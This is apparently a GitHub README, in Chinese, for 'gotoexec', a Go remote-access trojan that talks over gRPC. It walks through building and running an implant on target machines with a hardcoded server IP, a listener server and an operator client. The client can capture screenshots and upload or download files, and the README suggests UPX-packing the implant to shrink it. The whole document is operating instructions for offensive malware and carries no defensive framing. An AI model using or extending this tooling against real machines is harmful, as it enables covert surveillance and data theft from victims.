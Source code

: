 # gotoexec

### 简介

通过Go语言实现的一款基于gRPC的远控木马。

### 使用方法

程序分为三个部分：植入程序、服务端、客户端。分别对应目录：implant、server、client。每个部分都需要进行独立的编译和运行。

#### implant

implant：运行再目标机器上，远程服务端的IP硬编码卸载implant.go中，也就是说对于不同的服务端需要进行单独编译生成可以执行文件。

#### server

server：运行在服务端，通过参数iport和aport指定植入程序和客户端对应的端口号。

```
server.exe -iport 1961 -aport 1962

-aport int
    	Admin server port (default 1962)
-iport int
    	Implant server port (default 1961)

```

#### client

client：可以执行

##### 参数

```
client.exe -session start -IP 127.0.0.1 -port 1962 -sleep 5

-ip string
        Server IP (default "127.0.0.1")
-port int
        AdminServer Port (default 1962)
 -session string
        start session
 -sleep int
        sleep time
```

##### 功能

截图以png格式保存client.exe运行目录下

上传、下载文件大小限制在10MB内

```
截图：	screenshot
上传：	upload 本地文件 目标文件  
下载：	download 目标文件 本地文件
```



#### 编译命令

```
go build -ldflags "-s -w" -trimpath
```

对于implant植入程序，可以考虑使用upx压缩缩小体积。



### 运行截图

![](image/2.png)
![](image/1.png)



## proto   生成
protoc --go_out=. --go-grpc_out=.  implant.proto

# 本地运行

## 服务端   上线的服务器监听的地方
132 起server   go run server/server.go -iport 1961 -aport 1962


## 木马
.\implant.exe  编译的132


## 控制端
.\client.exe -session start -ip 192.168.56.132 -port 1962 -sleep 5


